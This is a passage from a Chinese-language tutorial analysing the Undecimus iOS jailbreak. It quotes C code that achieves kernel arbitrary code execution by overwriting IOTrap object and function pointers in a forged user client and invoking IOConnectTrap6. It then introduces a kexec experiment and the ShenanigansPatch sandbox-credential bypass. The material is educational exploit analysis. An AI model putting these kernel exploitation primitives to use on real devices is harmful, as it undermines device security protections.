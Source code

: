 ```c
    returnval = kernel_call_7(ptr, 7, x0, x1, x2, x3, x4, x5, x6);
#else
    // When calling IOConnectTrapX, this makes a call to iokit_user_client_trap, which is the user->kernel call (MIG). This then calls IOUserClient::getTargetAndTrapForIndex
    // to get the trap struct (which contains an object and the function pointer itself). This function calls IOUserClient::getExternalTrapForIndex, which is expected to return a trap.
    // This jumps to our gadget, which returns +0x40 into our fake user_client, which we can modify. The function is then called on the object. But how C++ actually works is that the
    // function is called with the first arguement being the object (referenced as `this`). Because of that, the first argument of any function we call is the object, and everything else is passed
    // through like normal.

    // Because the gadget gets the trap at user_client+0x40, we have to overwrite the contents of it
    // We will pull a switch when doing so - retrieve the current contents, call the trap, put back the contents
    // (i'm not actually sure if the switch back is necessary but meh)

    // IOTrap starts at +0x40
    // fake_client 即我们构造的 userClient
    // 0ffx20 为 IOTrap->object，offx28 为 IOTrap->func，这里是对原始值进行备份
    kptr_t offx20 = ReadKernel64(fake_client + 0x40);
    kptr_t offx28 = ReadKernel64(fake_client + 0x48);
    
    // IOTrap->object = arg0
    WriteKernel64(fake_client + 0x40, x0);
    // IOTrap->func = func_ptr
    WriteKernel64(fake_client + 0x48, ptr);
    
    // x1~x6 为函数的第 1 ~ 6 个参数，第 0 个参数通过 trap->object 传入
    returnval = IOConnectTrap6(user_client, 0, x1, x2, x3, x4, x5, x6);
    
    // 这里对原始值进行恢复
    WriteKernel64(fake_client + 0x40, offx20);
    WriteKernel64(fake_client + 0x48, offx28);
#endif
    pthread_mutex_unlock(&kexec_lock);
    return returnval;
}
```
基于上述讨论这段代码还是很好理解的，到这里非 arm64e 架构下的内核任意代码执行原理就讲解完了，有关 arm64e 的讨论将在下一篇文章中继续，下面我们用 kexec 做一个实验来验证 Primitive 的达成。

# kexec 实验
## 环境准备
请读者打开 Undecimus 源码的 `jailbreak.m`，搜索 `_assert(init_kexec()` 定位到初始化 kexec 的代码，向上翻可以发现 kexec 的初始化被放到了 ShenanigansPatch 和 setuid(0) 之后。ShenanigansPatch 是用来解决内核对 sandbox 化进程的 ucred 检查而采取的绕过措施[3]，它是通过 String XREF 定位和修改内核全局变量实现的，有兴趣的读者可以自行阅读 [Shenanigans, Shenanigans!](https://stek29.rocks/2018/12/11/shenanigans.html) 来了解。
